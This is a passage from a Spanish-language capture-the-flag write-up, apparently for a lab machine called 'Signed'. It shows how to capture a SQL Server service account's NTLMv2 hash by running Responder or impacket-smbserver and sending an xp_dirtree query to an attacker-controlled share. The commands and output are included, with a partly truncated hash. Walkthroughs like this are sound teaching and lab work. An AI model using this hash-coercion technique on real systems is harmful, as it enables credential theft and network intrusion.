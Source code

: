 Ahora bien, la duda entra en de quién obtendríamos el **Hash NTLM** al intentar capturarlo.

Normalmente, el intento de autenticación lo hará el proceso de **SQL Server** (que sería el **usuario mssqlsvc**) y, por tanto, se enviará la **autenticación NTLM** de esa cuenta de servicio / cuenta máquina (por ejemplo, **MACHINE$** o la cuenta de servicio configurada). 

Para capturar el **Hash NTLM** podemos usar la herramienta **responder** o **impacket-smbserver**.

Usemos ambas.

<br>

<h3 id="responder">Capturando Hash NTLM con Responder</h3>

Activa la herramienta **responder** usando tu interfaz de red (el comando necesita **permisos sudo**):
```bash
responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
...
```

Desde el **MSSQL**, realizamos una consulta con el comando **xp_dirtree** hacia nuestra máquina:
```batch
SQL (scott  guest@master)> xp_dirtree \\Tu_IP\
subdirectory   depth   file   
------------   -----   ----
```

Observa el **responder**:
```bash
[SMB] NTLMv2-SSP Client   : 10.10.11.90
[SMB] NTLMv2-SSP Username : SIGNED\mssqlsvc
[SMB] NTLMv2-SSP Hash     : mssqlsvc::SIGNED:4c274....
```
Capturamos el **Hash NTLM**, ya solo tenemos que crackear el Hash.

<br>

<h3 id="smbserver">Capturando Hash NTLM con Impacket-Smbserver</h3>

Usemos la herramienta **impacket-smbserver** para levantar un **servidor SMB** y ahí capturar el **Hash NTLM**:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B3... V:3.0
[*] Callback added for UUID 6BF... V:1.0
```

Desde el **MSSQL**, realizamos una consulta con el comando **xp_dirtree** hacia nuestro **servidor SMB**, consultando el directorio compartido:
```batch
SQL (scott  guest@master)> xp_dirtree \\Tu_IP\smbFolder
subdirectory   depth   file   
------------   -----   ----
```
